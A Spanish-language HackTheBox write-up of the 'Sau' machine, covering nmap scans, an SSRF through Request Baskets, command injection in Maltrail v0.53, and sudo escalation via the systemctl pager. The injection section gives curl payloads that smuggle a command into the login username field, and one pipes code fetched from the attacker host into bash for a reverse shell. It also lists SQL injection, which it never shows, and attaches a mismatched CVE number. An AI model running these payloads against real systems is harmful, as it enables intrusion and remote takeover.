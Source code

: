 ```yaml
---
title: HackTheBox - Sau
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, SSRF, 'Command Injection']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Sau/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Sau Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **SQL Injection, SSRF, Command Injection**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Sau`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Sau/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sC  <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Sau/02-versions.png)

    > Tenemos 2 puertos filtrados **`80,8338`**

c. Visitamos la página web

![](/assets/images/HTB/Easy/Sau/03-web.png)

* Al buscar algo relacionado con **`Request Baskets`** veremos que existe un **`SSRF`**, esto nos servirá para ver los servicios de los **puertos filtrados** 

### **Configurando SSRF** 🦈

1. Creamos un nuevo **`basket`** y lo abrimos

    ![](/assets/images/HTB/Easy/Sau/04-step.png)

2. Lo configuramos para que todo el tráfico que enviemos a este **`basket`** sea redirigido al puerto **`80`** interno de la máquina

    ![](/assets/images/HTB/Easy/Sau/04-step2.png)

3. Si ahora visitamos el **basket** veremos la página web del puerto **80** (Puerto Filtrado)

    ![](/assets/images/HTB/Easy/Sau/05-ssrf.png)

d. El servicio es **`Maltrail (v0.53)`**, y al buscar por vulnerabilidades encontramos [CVE:2023-27163](https://www.exploit-db.com/exploits/51676), es una inyección de comando

```bash
> curl 'http://<IP Sau>:55555/[basket]/login' --data 'username=;`curl http://<tun0 IP>:8081`'
--------------------------------------------------------------------------------------------------------------
> nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.11.224] 39976
```

c. Nos enviamos una reverse shell

```bash
> curl 'http://<IP Sau>:55555/08cexes/login' --data 'username=;`curl http://<tun0 IP>:4444|bash`'
```

![](/assets/images/HTB/Easy/Sau/06-shell.png)


### Escalada de Privilegios 💹

a. Listamos privilegios a nivel de sudoers

```bash
puma@sau:/opt/maltrail$ sudo -l

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

b. Ejecutamos el script como root y una vez que el servicio se despliege teclearemos **`!/bin/bash`**

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
```

![](/assets/images/HTB/Easy/Sau/07-bash.png)